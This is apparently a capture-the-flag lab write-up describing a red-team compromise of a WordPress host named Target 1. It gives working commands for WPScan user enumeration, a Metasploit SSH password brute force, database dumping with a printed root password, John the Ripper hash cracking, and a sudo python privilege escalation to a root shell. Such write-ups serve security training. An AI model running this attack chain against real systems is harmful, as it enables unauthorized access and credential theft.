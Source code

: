 # Red Team: Summary of Operations
## Table of Contents
- Exposed Services
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
- Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

-----
### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - WPscan to enumerate users on Target 1
  - Brute force attacking a weak password
      
#### Method
First we enumerated the user accounts by exploiting the vulnerable WordPress site using wpscan.
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
```
$ msfconsole
```
```
> search ssh_login
```
```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
```
> exit -y
```
```
$ ssh michael@192.168.1.110
```
```
$ grep -rnw / -e “flag1” 2> /dev/null
```
-----
### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
Using the existing access we were able to locate the second flag using the following command:
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```
-----
### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1
#### Method
```
$ cat /var/www/html/wordpress/wp-config.php
```
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
```
$ grep “flag3” dump
```

Note: flag4 was found here in addition to the next step

-----
### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
>  select * from wp_users;
```
```
exit
```
```
echo "steven:\$P\$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
john hash.txt
```
```
exit
```
```
exit
```
```
ssh steven@192.168.1.110
```
```
sudo -l
```
```
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
-----


